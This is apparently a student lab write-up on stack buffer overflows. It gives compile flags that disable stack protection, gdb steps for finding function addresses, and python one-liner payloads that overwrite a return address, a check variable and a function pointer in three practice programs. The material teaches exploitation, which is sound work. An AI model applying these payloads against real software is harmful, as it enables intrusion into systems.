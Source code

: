 # 20110540, Huỳnh Hùng Phú
# Lab #1: Buffer Overflow
# Task 1: Stack smashing by memory overwritten
## 1.1. bof1.c
<span style="color:blue">Compiles program with </span>`` gcc -g bof1.c -o bof1.o -fno-stack-protector -mpreferred-stack-boundary=2 ``<br>
<span style="color:blue">Start 'gdb' with compiled executable </span>`` gdb -q bof1.o ``<br>
<span style="color:blue">Use 'disassemble'command to find the address of 'secretFunc' </span>`` disas secretFunc ``<br>
<span style="color:blue">'SecretFunc' starts at memory address 0x0804846b </span><br>
<span style="color:blue">Overwrite the 200-byte 'array' and additionally overwrite 4-byte 'previous frame pointer' + overwrite 4-byte 'return address' by the address of the 'secretFunc' function </span>`` python -c 'print "a"*204 + "\x6b\x84\x04\x08"' | ./bof1.o 1 ``<br>
<span style="color:blue">Completely</span><br>
<img width="726" alt="Screenshot 2023-05-02 165126" src="https://raw.githubusercontent.com/hungphu2151/security_labs/main/images/bof1.png"><br>
## 1.2. bof2.c
<span style="color:blue">Compiles program with </span>`` gcc -g bof2.c -o bof2.o -fno-stack-protector  -mpreferred-stack-boundary=2 ``<br>
<span style="color:blue">Overwrite the 40-byte 'buf' + overwrite 4 bytes 'check' by '0xdeadbeef' </span>`` python -c 'print "a"*40+"\xef\xbe\xad\xde"' | ./bof2.o 1 1 ``<br>
<span style="color:blue">Completely</span><br>
<img width="726" alt="Screenshot 2023-05-02 165126" src="https://github.com/hungphu2151/security_labs/blob/main/images/bof2.png?raw=true"><br>
## 1.3. bof3.c
<span style="color:blue">Compiles program with </span>`` gcc -g bof3.c -o bof3.o -fno-stack-protector  -mpreferred-stack-boundary=2 ``<br>
<span style="color:blue">Start 'gdb' with compiled executable </span>`` gdb -q bof3.o ``<br>
<span style="color:blue">Use 'disassemble'command to find the address of 'shell' </span>`` disas shell ``<br>
<span style="color:blue">'Shell' starts at memory address 0x0804845b </span><br>
<span style="color:blue">Overwrite the 128-byte 'buf' + overwrite 4 bytes 'func' function  by the address of the 'shell' function </span>`` python -c 'print "a"*128 + "\x5b\x84\x04\x08"' | ./bof3.o ``<br>
<span style="color:blue">Completely</span><br>
<img width="726" alt="Screenshot 2023-05-02 165126" src="https://github.com/hungphu2151/security_labs/blob/main/images/bof3.png?raw=true"><br>